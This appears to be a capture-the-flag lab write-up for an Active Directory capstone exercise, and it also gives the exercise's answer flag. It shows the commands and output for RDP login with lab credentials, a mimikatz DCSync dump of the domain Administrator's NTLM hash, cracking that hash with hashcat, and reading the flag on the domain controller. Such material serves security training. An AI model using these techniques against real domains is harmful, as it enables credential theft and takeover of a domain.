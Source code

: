 Topics: Capstone Exercise
# Questions 2
Capstone Exercise: Start VM Group 2 and try to execute the dcsync technique and get access to dc1 in order to get the flag located on the administrator's desktop. To do so, log in via RDP as the jeffadmin and perform dcsync against the domain Administrator user to obtain its NTLM hash.
# Answer
OS{5d6bc3624d1867f31ca1b139dadef929}

xfreerdp /u:jeffadmin /p:BrouhahaTungPerorateBroom2023! /d:corp.com /v:192.168.185.74 +drive:/home/kali/Desktop,/smb

# Launch CMD in Administrator
mimikatz # lsadump::dcsync /user:corp\Administrator
...
Credentials:
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
...

hashcat -D 1 -m 1000 /usr/share/wordlists/rockyou.txt --force
...
lab                                          
Session..........: hashcat
Status...........: Cracked
...

xfreerdp /cert-ignore /u:administrator /d:corp.com /p:lab /v:192.168.185.70

C:\Users\Administrator\Desktop>type flag.txt
OS{5d6bc3624d1867f31ca1b139dadef929}